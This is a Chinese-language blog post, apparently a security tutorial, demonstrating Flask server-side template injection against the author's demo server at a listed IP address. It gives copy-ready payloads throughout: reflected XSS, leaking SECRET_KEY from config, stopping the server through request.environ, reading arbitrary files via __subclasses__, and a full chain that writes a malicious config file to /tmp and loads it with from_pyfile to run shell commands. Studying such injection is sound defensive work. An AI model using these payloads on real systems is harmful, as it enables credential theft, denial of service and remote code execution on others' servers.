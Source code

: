 ```yaml
---
layout: post
title: flask-ssti注入
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[源代码地址](https://github.com/ZhangAiQiang/Flask/tree/master/flask-session%E8%BA%AB%E4%BB%BD%E4%BC%AA%E9%80%A0%E7%AE%80%E5%8D%95%E6%BA%90%E7%A0%81)  (请用python2.7运行，python3有点出入)
  
# **注入点:**     

![](https://i.imgur.com/BjpRspN.png)  

不是返回的静态模板而是反回模板字符串变得让客户端可以控制。  
  
# **XSS**   #
  
这里直接http://39.105.116.195:9000/<script>alert("惊了，github不对xss危险字符转义")</script>就会有反射性XSS  

flask对模板文件和模板文件中内容进行转义,可如果直接返回模板字符串或者直接返回字符串的话是不会转义的:  


  
![](https://i.imgur.com/AlrT7iT.png)  

只有xss1不会弹框，因为传到了静态文件里面，flask会自动进行转义。  

# **注入测试**   

http://39.105.116.195:9000/{{1+1}}  发现回传的是"/2"存在注入点。  

![](https://i.imgur.com/ls9zH4o.png) 

存在注入。  

# **config** #
 
flask的一个内置全局变量，保存着一些很隐私的信息。  

![](https://i.imgur.com/76P4EX0.png)  

比如SECRET_KEY，就可以session伪造用户。还有数据库连接的信息，就知道了数据库的密码。    

这个是个字典，也可以这样调用某个值
> http://39.105.116.195:9000/{{config['SECRET_KEY']}}  

# **request** 
类似于config，保存着一些信息。**request.environ**是一个字典，其中包含和服务器环境相关的对象  

![](https://i.imgur.com/domxsHz.png)  

>     http://39.105.116.195:9000/{{request.environ['werkzeug.server.shutdown']()}}这个会让服务器停止运行python，但是在gunicorn环境下中不会。  

# **config的from_object方法** #

{{ config.from_object('os') }}通过这个方法，config属性里面多了os(这是举个例子，其他的库自己也可以试试)库里面名字全是大写的属性和变量，而且是可以直接调用。  
  

# **几个重要的属性**  

![](https://i.imgur.com/AZFDkgb.png)  
运行结果  

![](https://i.imgur.com/qVopj2E.png)
  
# **任意文件读取** #
![](https://i.imgur.com/uApeB1u.png)  

>     ""根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。  



# **远程代码执行利用from_pyfile** #

将一个文件的路径传进去然后编译，这样我们结合file的写功能就可以在指定的位置写文件，然后用from_pyfile编译。    

**写入指令print(1+1)**

![](https://i.imgur.com/wYQ0Skk.png)    
  
**pyfile来编译执行，返回TRUE执行成功。**


![](https://i.imgur.com/udhMvsj.png)  
 
## 还有一种是不用每次写文件，写一次，然后每次只传入命令就好。  

>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\rRUNCMD = check_output') }}   

参考[文章](http://www.anquan.us/static/drops/tips-13683.html)的时候,他是\n\r，可能是mac本，不管了，服务器一般用linux，\n\r写入回车就好了。还有一个需要注意的是，如果你是直接在浏览器上输入反斜杠的话会给你编码为/，所以会编译失败(因为没有回车)，url编码一下就好了%5cn%5cr  
    
>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output%5cn%5crRUNCMD = check_output') }},另外的话如果用burp抓包发送是不需要考虑编码的。

**编译**  

>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

**命令执行:**
  
>     http://39.105.116.195:9000/{{ config['RUNCMD']('ls /',shell=True)}}  

  
![](https://i.imgur.com/i5R1Iod.png)